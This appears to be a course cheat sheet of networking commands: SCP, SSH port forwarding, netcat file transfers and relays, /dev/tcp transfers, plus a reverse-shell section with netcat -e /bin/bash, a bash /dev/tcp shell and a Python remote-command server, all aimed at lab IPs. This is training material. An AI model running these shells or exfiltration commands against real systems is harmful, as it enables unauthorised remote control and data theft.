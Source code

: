 # Commands


find / -name hint* 2> /dev/null

find / -name flag* 2> /dev/null
ss -ntlp




- mknod                                                              # make a node in memory. needed for named pipes in netcat two way tunnel
- mknod mypipe p                                                     # Example of a node
- nc -lvp 10.0.0.1:1111 < mypipe | nc -lvp 10.0.0.2:3333 > mypipe    # Example to direct connect the two devices with a netcat relay
- nc -lp 1111 < mypipe | nc -lp 2222 > mypipe                        # Example for a relay that just opens the ports and waits for the other devices to connect.

## FTP Commands
> FTP commands to download and travers
- ls         # list directory
- pwd        # show present directory
- cd         # change directories
- get        # Download a file  
- wget -r    # recursively get everthing in the present directory. 
> you can specify the port like this.
- wget -r 10.0.0.103:1000 

## SCP
### SCP Options
```
.  - Present working directory
-v - verbose mode
-P - alternate port
-r - recursively copy an entire directory
-3 - 3-way copy
```

### SCP Syntax
- Download a file from a remote directory to a local directory
```$ scp student@172.16.82.106:secretstuff.txt /home/student```
- Upload a file to a remote directory from a local directory
```$ scp secretstuff.txt student@172.16.82.106:/home/student```
- Copy a file from a remote host to a separate remote host
```
$ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student
password:    password:
```

### SCP Syntax
- Recursive upload of a folder to remote
```$ scp -r folder/ student@172.16.82.106:```
- Recursive download of a folder from remote
```$ scp -r student@172.16.82.106:folder/ .```

### SCP Syntax w/ alternate SSHD
- Download a file from a remote directory to a local directory
```$ scp -P 1111 student@172.16.82.106:secretstuff.txt .```
- Upload a file to a remote directory from a local directory
```$ scp -P 1111 secretstuff.txt student@172.16.82.106:```

### SCP Syntax through a tunnel
- Create a local port forward to target device
```$ ssh student@172.16.82.106 -L 1111:localhost:22 -NT```
- Download a file from a remote directory to a local directory
```$ scp -P 1111 student@localhost:secretstuff.txt /home/student```
- Upload a file to a remote directory from a local directory
```$ scp -P 1111 secretstuff.txt student@localhost:/home/student```

### SCP Syntax through a Dynamic Port forward
- Create a Dynamic Port Forward to target device
```$ ssh student@172.16.82.106 -D 9050 -NT```
- Download a file from a remote directory to a local directory
```$ proxychains scp student@localhost:secretstuff.txt .```
- Upload a file to a remote directory from a local directory
```$ proxychains scp secretstuff.txt student@localhost:```


## NETCAT
### NETCAT: Client to Listener file transfer
- Listener (receive file):
```nc -lvp 9001 > newfile.txt```
- Client (sends file):
```nc 172.16.82.106 9001 < file.txt```


### NETCAT: Listener to Client file transfer
- Listener (sends file):
```nc -lvp 9001 < file.txt```
- Client (receive file):
```nc 172.16.82.106 9001 > newfile.txt```


### NETCAT Relay Demos
> Listener - Listener
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
```
- On Internet_Host (send):
```$ nc 172.16.82.106 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc 192.168.1.1 3333 > newsecret.txt```


### NETCAT Relay Demos
> Client - Client
- On Internet_Host (send):
```$ nc -lvp 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc -lvp 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe
```

### NETCAT Relay Demos
> Client - Listener
- On Internet_Host (send):
```$ nc -lvp 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc 192.168.1.1 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe
```

### NETCAT Relay Demos
> Listener - Client
- On Internet_Host (send):
```$ nc 172.16.82.106 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc -lvp 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc 192.168.1.10 3333 > mypipe
```
nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe
### File Transfer with /dev/tcp
- On the receiving box:
```$ nc -lvp 1111 > devtcpfile.txt```
- On the sending box:
```$ cat secret.txt > /dev/tcp/10.10.0.40/1111```
- This method is useful for a host that does not have NETCAT available.


## Reverse Shells
https://net.cybbh.io/public/networking/latest/09_file_transfer/fg.html#_9_3_reverse_shells


### Reverse shell using NETCAT
- First listen for the shell on your device.
```$ nc -lvp 9999```
- On Victim using -c :
```$ nc -c /bin/bash 10.10.0.40 9999```
- On Victim using -e :
```$ nc -e /bin/bash 10.10.0.40 9999```



### Reverse shell using /DEV/TCP
- First listen for the shell on your device.
```$ nc -lvp 9999```
- On Victim:
```$ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1```


### Reverse shell Python3
```
#!/usr/bin/python3
import socket
import subprocess
PORT = 1234        # Choose an unused port
print ("Waiting for Remote connections on port:", PORT, "\n")
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('', PORT))
server.listen()
while True:
    conn, addr = server.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024).decode()
            if not data:
                break
            proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output, err = proc.communicate()
            response = output.decode() + err.decode()
            conn.sendall(response.encode())
server.close()
```




```
ssh -p <optional alt port> <user>@<server ip> -L <local bind port>:<tgt ip>:<tgt port> -NT
or
ssh -L <local bind port>:<tgt ip>:<tgt port> -p <alt port> <user>@<server ip> -NT
```

























